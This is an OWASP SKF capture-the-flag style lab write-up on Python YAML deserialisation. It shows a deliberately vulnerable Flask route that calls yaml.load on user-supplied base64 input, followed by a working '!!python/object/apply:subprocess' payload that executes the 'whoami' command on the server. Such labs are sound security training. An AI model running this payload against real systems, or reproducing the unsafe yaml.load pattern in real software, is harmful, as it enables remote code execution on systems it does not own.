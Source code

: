 # Deserialisation Yaml

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.

![](../../.gitbook/assets/DES-Yaml1_2.png)

By Base64 decoding you can see it uses a key value pair -> foo : value

![](../../.gitbook/assets/DES-Yaml1_3.png)

Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.

![](../../.gitbook/assets/DES-Yaml1_1.png)

In the code example the _input_ query string parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
@app.route("/information/<input>", methods=['GET'])
def deserialization(input):
    try:
            if not input:
                return render_template("information/index.html")
            yaml_file = base64.b64decode(input)
            content = yaml.load(yaml_file)
    except:
            content = "The application was unable to  to deserialize the object!"
    return render_template("index.html", content = content['yaml'])
```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: woop woop
```

Encode it in Base64 and put it in place the original yaml object.

```
eWFtbDogd29vcCB3b29w
```

![](../../.gitbook/assets/DES-Yaml1_4.png)

As you can see our yaml object was accepted and parsed by the application.

When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
yaml: !!python/object/apply:subprocess.check_output ["whoami"]
```

Base64:

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnd2hvYW1pJ10=
```

Now when we submit the new yaml object we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

![](../../.gitbook/assets/DES-Yaml1_5.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization_Cheat_Sheet#Python" %}

